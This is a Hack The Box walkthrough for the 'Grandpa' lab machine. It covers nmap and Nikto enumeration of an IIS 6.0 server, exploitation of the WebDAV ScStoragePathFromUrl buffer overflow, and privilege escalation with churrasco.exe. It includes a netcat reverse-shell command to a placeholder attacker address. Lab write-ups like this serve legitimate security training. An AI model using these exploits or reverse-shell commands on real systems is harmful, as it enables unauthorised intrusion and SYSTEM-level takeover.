

# Grandpa

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | WebDAV Exploit, Microsoft IIS 6.0, WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow, SeImpersonatePrivilege, Churrasco Exploit, Alternative Juicy Potato |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Scan

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.14 -oN AllPorts
```

Full Scan

```bash
nmap -p 80 -sCV -Pn -n -vvv 10.10.10.14 -oN FullScan
```

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Wed, 19 Oct 2022 02:33:25 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Nmap Web Scan

```bash
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
```

## Nikto

```bash
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (PROPFIND SEARCH UNLOCK PROPPATCH LOCK MKCOL COPY listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://10.10.10.14/
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
```

# Initial Access

*Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow | windows/remote/41738.py*

After enumeration, we can see that the server is running IIS 6.0. Checking on searchsploit we will find the following exploits for IIS 6.0


We will focus on: windows/remote/41738.py - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow

```bash
Exploit Description: Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Servi
       │ ces (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long heade
       │ r beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016
```

Do not download this script as this is a PoC that executes Calc.exe

Search on internet with the following term: <`iis 6.0 + PROPFIND + github`>

Use the following GitHub Repo:

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

Download the python the script and execute it as follows:

```bash
python2.7 iis6-exploit.py TARGET-IP TARGET-PORT LISTENER-IP LISTENER-PORT
```

```bash
python2.7 iis6-exploit.py 10.10.10.14 80 10.10.16.2 443
```

Execution:



Listener: 


# Privilege Escalation

### Enumerate privileges assigned to the current user


We will see the privilege <`SeImpersonatePrivilege`> which is vulnerable to `JuicyPotato`. 

However, in this case we need to use [Churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe) as the Windows OS is too old (2003). 

Reference: 

[Privilege Escalation (Windows) - churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

### Exploit:

Proceed to download the binary and `transfer` it using `Net View` method to the target machine:

https://github.com/Re4son/Churrasco/raw/master/churrasco.exe

### Execution:

Usage:

```powershell
Churrasco.exe [-d] "command to run"
```

 Then just simply execute a cmd.exe 

```powershell
C:\WINDOWS\Temp>churrasco.exe -d "cmd.exe"
#or use netcat
C:\WINDOWS\Temp>churrasco.exe -d "nc.exe -e cmd.exe ATTACKER-IP ATTACKER-PORT"
```


Done, we will get a shell as `NT AUTHORITY/SYSTEM`

[Owned Grandpa from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/13)